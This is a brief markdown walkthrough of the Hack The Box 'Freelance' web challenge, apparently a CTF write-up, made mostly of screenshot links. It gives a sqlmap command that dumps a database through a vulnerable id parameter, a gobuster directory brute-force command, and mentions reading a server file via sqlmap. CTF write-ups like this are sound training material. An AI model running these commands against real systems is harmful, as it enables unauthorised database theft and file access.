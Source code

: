 # HTB_Freelance_Web_Challenge_Solution

open Website 
![Open Website](/host.png)

Then right click and Select Source code
![Then right click and Select Source code](/Page_Source.png)

try Sql injection
![Then right click and Select Source code](/link.png)

using Enumeration in sqlmap tool
  
  sqlmap -u http://docker.hackthebox.eu:31569/portfolio.php?id=1 --dump --batch
![Then right click and Select Source code](/sqlmap2.png)
![Directory Brute-force using gobuster](/sqlmap1.png)

gobuster dir -u http://docker.hackthebox.eu:31569/ -w /usr/share/wordlists/dirb/common.txt 
![Directory Brute-force using gobuster](/directort1.png)


Read the file in server using sqlmap 
![Directory Brute-force using gobuster](/output1.png)
![Directory Brute-force using gobuster](/output2.png)

